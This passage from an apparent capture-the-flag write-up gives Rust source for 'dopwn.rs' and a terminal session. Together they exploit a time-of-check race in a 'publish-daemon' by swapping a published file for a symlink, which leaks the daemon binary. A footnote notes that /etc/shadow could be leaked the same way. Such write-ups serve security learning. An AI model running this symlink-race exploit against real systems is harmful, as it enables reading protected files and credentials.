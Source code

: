 ```rs
//! dopwn.rs

use anyhow::{Context, Result};
use std::fs::remove_file;
use std::io::{Read, Write, stdout};
use std::os::unix::fs::symlink;
use std::os::unix::net::UnixStream;
use std::path::Path;
use std::thread;
use std::time::Duration;

mod common;

fn main() -> Result<()> {
    let args: Vec<String> = std::env::args().collect();
    if args.len() != 2 {
        println!("invalid usage");
        return Ok(());
    }

    let base_path = Path::new(&args[1]);
    let publish_name = common::find_publish(&base_path)?;
    let publish_path = base_path.join(Path::new(&publish_name));
    println!("publish: {:?}", publish_path);

    let mut socket = UnixStream::connect("/var/run/publish.sock")?;
    thread::sleep(Duration::from_secs(5 * 60));
    remove_file(&publish_path).context("remove_file failed")?;
    symlink(Path::new("/usr/sbin/publish-daemon"), &publish_path).context("symlink failed")?;

    let mut out = Vec::new();
    socket.read_to_end(&mut out)?;
    stdout().write_all(&out)?;

    println!("done!");
    Ok(())
}
```

Now to put it all together...

```bash
arcblroth@temescal:~/pwn$ mkdir ~/public_html
arcblroth@temescal:~/pwn$ ./mkpwn ~/public_html
publish: a000000000000000000000000000000000000220
arcblroth@temescal:~/pwn$ echo "a" >> ~/public_html/idea/solve/a000000000000000000000000000000000000220
arcblroth@temescal:~/pwn$ ./dopwn ~/public_html
publish: /home/arcblroth/public_html/a000000000000000000000000000000000000055
...snip...
upload successful
done!
```


[^1]: BOL was definitely designed for the 2000s and hasn't been updated since. It takes over a second to load a 20-byte homepage...
[^2]: Note that this idea can work with *any* file readable by `publish-daemon` - we could have leaked `/etc/shadow` with the exact same technique!
[^3]: Note that we can also use this exploit to bypass the 10 MB max directory size check!